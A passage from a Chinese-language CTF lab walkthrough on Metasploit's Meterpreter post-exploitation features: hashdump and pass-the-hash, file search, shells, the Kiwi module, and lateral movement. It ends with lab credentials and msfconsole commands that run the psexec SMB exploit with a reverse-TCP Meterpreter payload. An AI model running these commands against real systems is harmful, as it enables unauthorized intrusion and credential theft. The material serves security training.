 虽然在数学上不可能“破解”这些哈希值，但是你仍然可以使用在线 NTLM 数据库或彩虹表攻击来获取明文密码。这些哈希值也可用于 Pass-the-Hash （哈希传递）攻击，以验证这些用户是否可以访问同一网络的其他系统。

**Search**

search命令对于定位具有潜在价值信息的文件很有用。在 CTF 的上下文环境中，这个命令可用于快速找到flag或证明文件，而在实际的渗透测试活动中，你可能需要搜索用户生成的文件或一些可能包含密码、帐户信息的配置文件。

![image-20221006100148525](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006100148525.png)

**Shell**

shell 命令将在目标系统上启动一个常规命令行 shell，按下 CTRL+Z 将帮助你返回至 Meterpreter shell。

![image-20221006100355193](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006100355193.png)

## 后渗透挑战

Meterpreter 提供了几个重要的后渗透工具。

前面提到的命令，例如 " getsystem " 和" hashdump " 将为权限提升和横向移动提供重要的杠杆和信息。基于Meterpreter，你可以使用它来运行 Metasploit 框架上一些可用的后渗透模块。最后，你还可以使用" load "命令来利用其他工具，例如 加载Kiwi或者加载整个 Python 语言。

![image-20221006101332177](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006101332177.png)

Meterpreter 具有一些功能，能够帮助完成 后渗透阶段的多个目标。

* 收集有关目标系统的更多信息。
* 在目标系统上寻找有价值的文件、寻找用户凭据、寻找额外的网络接口和一般信息。
* 权限提升。
* 横向移动。

使用 load 命令加载完任何其他工具后，你将在帮助菜单上看到一些新选项。下面的示例显示了添加Kiwi模块之后 产生的命令（先使用 load kiwi 命令）。

![image-20221006102155079](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006102155079.png)

在完成模块添加之后，meterpreter命令列表会根据load的菜单发生一些新的变化，请使用 help命令重新查看命令列表：

![image-20221006102555453](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006102555453.png)

答题

回答下面的问题将帮助你更好地了解 Meterpreter 如何在后渗透中使用。

你可以使用下面的凭据来模拟 针对SMB（服务器消息块）的初始攻击（使用 " exploit/windows/smb/psexec " 模块）

Username: ballen Password: Password1

RHOSTS：10.10.118.171

LHOSTS：10.10.34.130

首先建立一个meterpreter会话，使用以下命令：

```
msfconsole
search exploit/windows/smb/psexec
use 0        #使用默认的payload：windows/meterpreter/reverse_tcp
show options
set RHOSTS 10.10.118.171
set SMBPass Password1
set SMBUser ballen
exploit      #或者run
```
